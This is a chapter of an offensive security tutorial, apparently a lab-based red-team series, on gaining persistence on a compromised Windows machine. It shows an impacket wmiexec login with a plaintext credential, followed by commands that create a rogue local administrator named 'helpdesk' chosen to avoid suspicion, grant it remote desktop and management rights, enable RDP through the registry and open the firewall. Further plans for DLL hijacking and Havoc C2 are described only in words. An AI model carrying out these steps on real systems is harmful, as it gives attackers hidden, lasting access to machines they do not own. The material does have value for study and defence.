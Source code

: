 # 0x06 Persistence on Windows
<a href="#0x05"><button class="nav-btn">Previous chapter</button></a><a href="#0x07"><button class="nav-btn">Next chapter</button></a>

`https://makeameme.org/meme/what-if-i-s68chp`
![](http://news.baycode.eu/wp-content/uploads/2023/11/what-if-i-s68chp.jpg)

Our next step is to ensure our presence on the machine is long-lasting and difficult to remove.

In this chapter, we will establish persistence through techniques such as creating rogue local administration accounts, enabling RDP and WinRM, and employing more advanced DLL hijacking method to load hidden malware from a .dll file.

We will first establish persistence by creating a rogue Local Administrator account, enabling RDP, and WinRM. Next, we'll set up port forwarding tunnels for traffic and utilize Havoc C2   (https://github.com/HavocFramework/Havoc) as our primary Command and Control server to send commands to the beacons and inject code directly into memory.

## AdminIsTraitor

Let's start from creating a rogue system administrator account, and enabling RDP. The user name is going to be `helpdesk` to not raise much suspicion.

```
┌──(root㉿kali)-[/home/kali/lateralmovement/impacket/examples]
└─# ./wmiexec.py -codec cp866 'democorp.com/BadgeService:Perfection123!@10.10.24.100'

net user helpdesk G3t_somehelp_br0 /ADD /Y  ::  create user

net localgroup <Administratorzy/Administrators> helpdesk /add  :: add user to local administrators group

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f  :: enable RDP

net localgroup "<Użytkownicy pulpitu zdalnego/Remote Desktop Users>" helpdesk /add :: add user to Remote Desktop Users group

net localgroup "<Użytkownicy zarządzania zdalnego/Remote Management Users>" helpdesk /add :: add user to Remote Management Users group

netsh advfirewall firewall add rule name="Remote Desktop 3389" dir=in action=allow protocol=TCP localport=3389 :: Enable firewall allow rule for RDP
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/31.png)

## Remote Desktop
It is now possible to connect to the remote machine using the Remote Desktop Protocol (RDP). We will use the `xfreerdp` utility for this purpose.
